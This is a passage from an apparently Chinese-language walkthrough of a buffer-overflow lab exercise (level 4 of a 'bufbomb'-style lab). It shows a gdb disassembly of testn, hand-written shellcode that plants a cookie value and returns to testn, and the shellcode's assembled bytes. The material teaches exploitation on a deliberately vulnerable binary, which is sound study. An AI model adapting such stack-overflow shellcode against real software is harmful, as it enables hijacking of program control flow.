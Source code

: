```assembly
(gdb) disass testn
Dump of assembler code for function testn:
   0x08048cce <+0>:		push   %ebp
   0x08048ccf <+1>:		mov    %esp,%ebp
   0x08048cd1 <+3>:		push   %ebx
   0x08048cd2 <+4>:		sub    $0x24,%esp
   0x08048cd5 <+7>:		call   0x8048c18 <uniqueval>
   0x08048cda <+12>:	mov    %eax,-0xc(%ebp)
   0x08048cdd <+15>:	call   0x8049244 <getbufn>
   0x08048ce2 <+20>:	mov    %eax,%ebx							/* 调用getbufn后的下一条指令 */
   0x08048ce4 <+22>:	call   0x8048c18 <uniqueval>
   0x08048ce9 <+27>:	mov    -0xc(%ebp),%edx
   0x08048cec <+30>:	cmp    %edx,%eax
   0x08048cee <+32>:	je     0x8048d06 <testn+56>
   0x08048cf0 <+34>:	movl   $0x804a460,0x4(%esp)
   0x08048cf8 <+42>:	movl   $0x1,(%esp)
   0x08048cff <+49>:	call   0x8048990 <__printf_chk@plt>
   0x08048d04 <+54>:	jmp    0x8048d4c <testn+126>
   0x08048d06 <+56>:	cmp    0x804d104,%ebx
   0x08048d0c <+62>:	jne    0x8048d34 <testn+102>
   0x08048d0e <+64>:	mov    %ebx,0x8(%esp)
   0x08048d12 <+68>:	movl   $0x804a48c,0x4(%esp)
   0x08048d1a <+76>:	movl   $0x1,(%esp)
   0x08048d21 <+83>:	call   0x8048990 <__printf_chk@plt>
   0x08048d26 <+88>:	movl   $0x4,(%esp)
   0x08048d2d <+95>:	call   0x8049280 <validate>
   0x08048d32 <+100>:	jmp    0x8048d4c <testn+126>
   0x08048d34 <+102>:	mov    %ebx,0x8(%esp)
   0x08048d38 <+106>:	movl   $0x804a2a6,0x4(%esp)
   0x08048d40 <+114>:	movl   $0x1,(%esp)
   0x08048d47 <+121>:	call   0x8048990 <__printf_chk@plt>
   0x08048d4c <+126>:	add    $0x24,%esp
   0x08048d4f <+129>:	pop    %ebx
   0x08048d50 <+130>:	pop    %ebp
   0x08048d51 <+131>:	ret    
End of assembler dump.
```

所以编写的漏洞汇编代码为：

```assembly
mov 	0x804d104,%eax		/* set Cookie as the return value */
leal 	0x28(%esp),%ebp		/* restore any corrupted state */
push 	$0x08048ce2				/* push the correct return location on the stack */
ret											/* return to testn */
```

使用工具得到反汇编代码:

```assembly

level4.o:     file format elf32-i386


Disassembly of section .text:

00000000 <.text>:
   0:	a1 04 d1 04 08       	mov    0x804d104,%eax
   5:	8d 6c 24 28          	lea    0x28(%esp),%ebp
   9:	68 e2 8c 04 08       	push   $0x8048ce2
   e:	c3                   	ret    
```
